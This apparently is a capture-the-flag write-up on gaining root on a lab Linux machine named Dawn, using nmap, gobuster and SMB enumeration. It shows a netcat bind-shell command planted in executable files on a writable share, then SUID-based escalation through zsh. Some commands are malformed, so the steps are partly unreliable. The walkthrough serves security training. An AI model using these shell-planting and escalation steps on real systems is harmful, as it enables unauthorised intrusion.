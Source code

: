 ```yaml
---
title : Dwan Machine(Linux machine)
tags: [Secuirty, Machine, pentesting]
style: border
color: dark
description: pwn Dwan machine

---
```

# Dwan Machine 
Hi all Its an linux based machine , let get into it 

First we connet to the Network Using VPN 

## Checking connection 
>Ping 192.168.222.11 

The connected scuesfully to the network 

## Enumuration

>  **nmap -sV -A 192.168.222.11**


```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGRUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 25
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, FoundRows, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, SupportsTransactions, LongColumnFlag, SupportsLoadDataLocal, Speaks41ProtocolNew, InteractiveClient, ODBCClient, IgnoreSigpipes, ConnectWithDatabase, DontAllowDatabaseTableColumn, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: YsX>j~\/sw$?PV?uPrm
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: DAWN

Host script results:
| smb2-time: 
|   date: 2023-08-09T16:05:31
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2023-08-09T12:05:32-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required 
```

Weee, *http* port is running let run ***gobuster***
>**gobuster  dir -u  http://192.168.222.11/ -w /home/harishankar/wordlist/ .txt**

**/logs/**  directory is available 
let look into it 

![Go busterscan](/assets/img/Dwan/Screenshot%20from%202023-08-09%2022-08-14.jpg)

![Logs](/assets/img/Dwan/Screenshot%20from%202023-08-09%2022-09-19.jpg)
    Log file exposed 

In that we can see that a file has excution permision **web-Control**  and **product-Control** with so let see on other side smbclient 
Doing more enumeration


****Enum4Linux****  
It Finds that smb runs with shared **ITDEPT** work Grp 
let connet through smbclient
 >smbclient //192.168.222.11/ITDEPT
 
 ![smbclient](/assets/img/Dwan/Screenshot%20from%202023-08-09%2022-12-56.png) 

## Intial Access 
 um empty , we know that product-control and web-control file with execution 

 let add file into this 
 ```
 echo "nc-e /bin/bash/-lvp 1234&" > product-control

 echo "nc-e /bin/bash/ -lvp 1235&" > web-control
``````

Puting the file into the machine now we essatblish the connetion 
``` 

NC 192.168.222.11 1234 

```
## privilege escalation

 SUID — It will provide special type of file permissions given to file. So If I’m an attacker once I got reverse first thing I will check SUID related files.

 ```
find / -perm -u=s -type f 2>/dev/null 
 
$whoami

$/usr/bin/zsh
 
$whoami
/root
/dawn

$cd /root
$cat flag.txt 

``` 

